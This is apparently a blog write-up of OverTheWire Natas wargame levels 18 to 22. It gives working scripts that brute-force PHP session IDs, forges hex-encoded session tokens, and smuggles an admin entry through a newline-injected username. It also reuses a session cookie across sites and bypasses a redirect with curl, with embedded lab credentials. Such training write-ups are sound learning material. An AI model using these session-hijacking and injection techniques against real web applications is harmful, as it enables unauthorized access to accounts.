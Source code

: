 ```yaml
---
layout: post
title: natas-writeup - lv18-lv??
excerpt: "Writeup for the Natas wargame on overthewire.org, from Level 18 to ??."
categories: [writeup]
tags: [itsec, wargame]
---
```


[overthewire / natas](http://www.overthewire.org/wargames/natas/)

## Level 18 ##

In this level we're given access to the source behind `index.php`. I originally thought there might be something in the way user inputs were compared but no luck. 2 things caught my attention - the first being a comment on the maximum number of sessions: `$maxid = 640; // 640 should be enough for everyone `, followed by the snippet below:

{% highlight javascript %}
    } else {
        debug("Session start ok");
        if(!array_key_exists("admin", $_SESSION)) {
        debug("Session was old: admin flag set");
        $_SESSION["admin"] = 0; // backwards compatible, secure
        }
        return true; 
{% endhighlight %}

Which seems to indicate some sessions would already have the `admin` flag set - so why not iterate through all 640 of them and see if the flag is set correctly somewhere?

I fired up Burp Intruder but given I only have the community edition, which throttles requests, it turned out to be faster to write the NodeJS snippet below:

{% highlight javascript %}
const got = require('got');

const sessionIds = [...Array(641).keys()]; // there are 640
sessionIds.forEach( (sessionId) => {
  got.get('http://natas18.natas.labs.overthewire.org/index.php?debug', {                                             headers: {                                                                                                         'Authorization': 'Basic bmF0YXMxODp4dktJcURqeTRPUHY3d0NSZ0RsbWowcEZzQ3NEamhkUA==',
      'Cookie': `PHPSESSID=${sessionId}`}}).then(resp =>
      {
        if (resp.body.includes('You are an admin')) {
          console.log(`sessionId: ${sessionId} + ${resp.body}`);
        }
      });                                                                                                        });
{% endhighlight %}

And soon enough:

```
sessionId: 119 + <html>
<head>
...
<div id="content">
DEBUG: Session start ok<br>You are an admin. The credentials for the next level are:<br>
...
```

## Level 19 ##

We're told the code for this level is similar to the previous one, but that the format of session ID (`PHPSESSID`) differs.

Using Burp's sequencer I gathered close to 10,000 tokens. A quick run through `sort | uniq` led to a list of 640 unique tokens. I ran through those fairly quickly with the below:

{% highlight javascript %}
const got = require('got');
const fs = require('fs');

const sessionIds = fs.readFileSync('natas19.tokens.uniq','utf8').split('\r\n'); // there are 640
sessionIds.forEach( (sessionId) => {
  got.get('http://natas19.natas.labs.overthewire.org/index.php?debug', {
    headers: {
      'Authorization': 'Basic bmF0YXMxOTo0SXdJcmVrY3VabEE5T3NqT2tvVXR3VTZsaG9rQ1BZcw==',
      'Cookie': `PHPSESSID=${sessionId}`}}).then(resp =>
      {
        if (sessionId && !resp.body.includes('regular user')) {                                                                   console.log(`sessionId: ${sessionId} + ${resp.body}`);
        }                                                                                                                     });
});
{% endhighlight %}

But none of them worked - something wasn't right. From looking at the tokens, it was clear there was a part that was static: `2d616263`. This turned out to be hex for `-abc`, `abc` being the username I originally tried to log in with!

Essentially I could re-use the code for natas18, but would need to append `-admin` to each session id and convert it to hex instead. A few tries later, we're in!

For the record the session was derived as: `const s = Buffer.from(`${sessionId}-admin`).toString('hex');`

## Level 20

This one is a little different from the previous 2 given the session ID seems pretty random. A quick look at the code however reveals a red flag. The `mywrite` function:


{% highlight php %}
    foreach($_SESSION as $key => $value) {
        debug("$key => $value");
        $data .= "$key $value\n";
    } 
{% endhighlight %}

And `myread`:

{% highlight php %}
   foreach(explode("\n", $data) as $line) {
        debug("Read [$line]");
    $parts = explode(" ", $line, 2);
    if($parts[0] != "") $_SESSION[$parts[0]] = $parts[1]; 
{% endhighlight %}

Whatever we pass in as the username will be written to file and read back as key/value pairs in the `$_SESSION` object. So if we could add `admin 1` as an entry, we'd be home free. In other words, we need to add a new line to get the `mywrite` function to essentially write 2 entries.

Modifying the request to `foo%0Aadmin%201` (with `\n` and `(space)` URL-encoded) does just that - though note I had to modify the request directly in Burp vs through the textbox for this to work.

## Level 21

We're presented with a page that states it is co-located with [natas21-experimenter](http://natas21-experimenter.natas.labs.overthewire.org/index.php). The code on the main page indicates we're back to figuring out how to stuff `admin=1` in `$_SESSION` - but there's nothing on this page that would allow us to change that.

The other page however (natas21-experimenter) allows user input - lots of it. Looking at the code, the following snippet jumps out:

{% highlight php %}
// if update was submitted, store it
if(array_key_exists("submit", $_REQUEST)) {
    foreach($_REQUEST as $key => $val) {
    $_SESSION[$key] = $val;
    }
} 
{% endhighlight %}

We're free to add new parameters to `$_REQUEST` when submitting changes and those will be set in `$_SESSION` - yay!. Adding `&admin=1` to the `POST` parameters does the trick. However, this isn't the site we need those on.

Instead we grab the referer header along with the cookies and pass those back to the original site:

```
Referer: http://natas21-experimenter.natas.labs.overthewire.org/index.php
Cookie: __cfduid=dc5dfb9ecd6e2ed04913757fe15630eb81548476605; PHPSESSID=d0vhsull9qme8gi98ic81etna5
```

This tricks it into re-using the session we created for `natas21-experimeter` - which contains `admin=1`. Done!
```

## Level 22

The source tells us the credentials for natas23 will only be displayed if `if(array_key_exists("revelio", $_GET))` - but the snippet at the top strips all our parameters (the `header` function is essentially a redirect).:

{% highlight php %}
if(array_key_exists("revelio", $_GET)) {
        // only admins can reveal the password
        if(!($_SESSION and array_key_exists("admin", $_SESSION) and $_SESSION["admin"] == 1)) {
                header("Location: /");
        }
}
{% endhighlight %}

If we were to view this in say Firefox, the browser would automatically follow the redirect to `/`. But with `curl`, which doesn't follow redirects by default, it's easy: `curl -v --user natas22:<password_for_natas22> http://natas22.natas.labs.overthewire.org/?revelio -o - | grep Password`
